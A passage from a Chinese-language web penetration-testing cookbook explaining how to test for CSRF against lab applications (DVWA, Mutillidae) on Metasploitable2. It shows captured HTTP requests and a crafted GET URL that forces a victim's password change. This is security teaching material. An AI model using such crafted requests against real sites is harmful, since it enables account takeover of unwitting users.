 sqlmap 能够接受捕获的请求，来解析请求的内容并是被任何可测试的参数。这让 sqlmap 能够高效执行，而不需要花费额外的经历来传递攻击所需的所有参数。

## 7.17 自动化 CSRF 测试

跨站请求伪造（CSRF）是最难以理解的 Web 应用漏洞之一。无论如何，不能够识别这类漏洞会危害 Web 应用和它的用户。这个秘籍中，我们会讨论如何测试 GET 和 POST 方法中的 CSRF 漏洞。

### 准备

为了对目标执行 CSRF 测试，你需要拥有运行一个或多个含有 CSRF 漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

CSRF 可能会出现在 GET 或 POST 方法的事务中，DVWA 提供了 GET 方法 CSRF 漏洞的一个良好示例。应用允许用户通过 GET 方法提交新的值两次来更新密码。

```
GET /dvwa/vulnerabilities/csrf/?password_new=password&password_ conf=password&Change=Change HTTP/1.1 
Host: 172.16.36.135 User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/dvwa/vulnerabilities/csrf/ 
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c 
```

由于缺少 CSRF 控制，我们尝试利用这个漏洞。如果 Web 应用的用户被引诱来访问某个 URL，其中含有预先配置的`password_ new`和`password_ conf`值，攻击者就能强迫受害者将密码修改为攻击者的选择。下面的 URL 是个利用的示例。如果受害者访问了这个链接，它们的密码会被修改为`compromised`。

```
http://172.16.36.135/dvwa/vulnerabilities/csrf/?password_ new=compromised&password_conf=compromised&Change=Change#
```

但是，这种可以简单利用的 CSRF 漏洞很少存在。这是因为多数开发者对安全拥有起码的终止，不会使用 GET 方法参数来执行安全事务。POST 方法 CSRF 的一个例子是 Mutillidae 应用的 `blog`功能，像这样：

```
POST /mutillidae/index.php?page=add-to-your-blog.php HTTP/1.1 
Host: 172.16.36.135 
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/mutillidae/index.php?page=add-to-your-blog. php 
Cookie: username=Victim; uid=17; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7 b0c 
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 98

csrf-token=SecurityIsDisabled&blog_entry=This+is+my+blog+entry&add-toyour-blog-php-submit-button=Save+Blog+Entry
```
